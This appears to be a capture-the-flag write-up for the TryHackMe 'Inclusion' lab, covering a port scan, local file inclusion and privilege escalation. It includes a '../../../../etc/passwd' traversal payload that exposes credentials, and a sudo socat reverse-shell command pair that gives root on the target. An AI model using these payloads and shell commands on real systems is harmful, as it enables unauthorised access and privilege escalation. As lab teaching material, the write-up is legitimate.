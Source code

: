 # TryHackMe Inclusion
This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability. 

## Nmap

![nmap](nmap.png)

We have only 2 ports open `port 22` and `port 80`

## Website

![website](website.png)

Clicking on one of the articles we can see in the URL `article?name=lfiattack` 
This is an indication of file inclusion.

An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even Cross-site Scripting (XSS). [LFI](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

As we can see, switching `article?name=lfiattack` to be `article?name=../../../../etc/passwd`
![LFI](lfi.png)

It seems we have credentials of `falconfeast:rootpassword`. The only way we can use these credentials is through SSH. So let's try that

## SSH

It seems those credentials work.
![ssh](ssh.png)

Your user flag is right in your current working directory.

## Root

Let's check to see what we can run as sudo with no password
Running `sudo -l`

![sudo](sudo.png)

Looking up `socat` on [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo)

We can run `socat file:`tty`,raw,echo=0 tcp-listen:1234` on our host machine to set up a listener. On the target machine, we'll use what they provided `sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane`.

As you can see, we now have root access.

![root](root.png)

Your root flag is place in `/root`.